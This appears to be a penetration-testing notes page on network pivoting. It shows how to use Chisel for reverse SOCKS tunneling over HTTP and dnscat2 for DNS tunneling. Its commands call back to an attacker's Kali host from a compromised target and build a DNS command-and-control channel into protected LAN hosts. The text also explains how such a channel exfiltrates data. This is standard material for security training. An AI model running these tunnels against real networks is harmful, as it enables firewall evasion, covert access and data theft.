 # Chisel

[Chisel](https://github.com/jpillora/chisel) is an HTTP tunnel that forwards all the network connection through the HTTP protocol. It can be used combined with SSH to provide a good way to bypass firewalls that allows only Web traffic. Chisel uses a client/server model and binds the connection to the SOCKS port on the kali machine.

First we start chisel `SERVER` executable. It can happen that the target doesn't have the chisel executable. In this case we must provide it first.

```shell
chisel server --port <LOCAL-PORT> --reverse
```

On the `CLIENT` we must bind the connection with the server. The R specifies SOCKS reverse tunneling that bounds on port 1080 on the kali machine by default (`ss -ntplu` to check the bind status)

```shell
/tmp/chisel client <KALI-IP>:<LOCAL-PORT> R:socks > /dev/null 2>&1 &
```

Now, on the server we can navigate through the chisel tunnel with HTTP connection. We specify the ProxyCommand option that is the SSH option to specify a SOCKS5 connection and we use ncat, a modified version of netcat that accepts a SOCKS5 connection.

```shell
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' user@<REMOTE-IP>
```

Alternately we can use proxychains bound on `127.0.0.1` on port `1080`. This is an example with smbclient.

```shell
proxychains smbclient -L \\<REMOTE-IP>
```

# DNS Tunneling

DNS tunneling takes advantage of this fact by using DNS requests to implement a command and control channel for malware. Inbound DNS traffic can carry commands to the malware, while outbound traffic can exfiltrate sensitive data or provide responses to the malware operator’s requests. This works because DNS is a very flexible protocol. There are very few restrictions on the data that a DNS request contains because it is designed to look for domain names of websites. Since almost anything can be a domain name, these fields can be used to carry sensitive information. These requests are designed to go to attacker-controlled DNS servers, ensuring that they can receive the requests and respond in the corresponding DNS replies.

## DNSCAT2

With [dnscat](https://github.com/iagox86/dnscat2) we can use DNS as a tunnel and forward all traffic with DNS requests from one host, to connect a WAN host to an host deep and protected in the internal LAN. The **WAN-HOST** will query the **IP-B** through the DNS tunnel that **IP-A** establish with **WAN-HOST**, using **IP-C** as a resolver.

```
                DNS ------IP-C
                 |     
WAN-HOST ----- IP-A ------IP-B
   |____________||__________|

```

On the internal host, after we gain access to it, we run

```shell
./dnscat <DOMAIN>
```

And on the host in the WAN we run

```shell
dnscat2-server <DOMAIN>
```

Where the **DOMAIN** is a domain that can be resolved in the LAN. Now on the server we can interact with the tunnel created

```shell
window -i 1
```

And run the command that forwards the **LOCAL-PORT** to the **REMOTE-INTERNAL-IP** using the **REMOTE-PORT**

```shell
listen 127.0.0.1:<LOCAL-PORT> <REMOTE-INTERNAL-IP>:<REMOTE-PORT>
```

Now on the WAN host we can query the **REMOTE-INTERNAL-IP** using the tunnel, with a connection that points to **LOCAL-PORT**

```shell
ssh user@127.0.0.1 -p <LOCAL-PORT>
```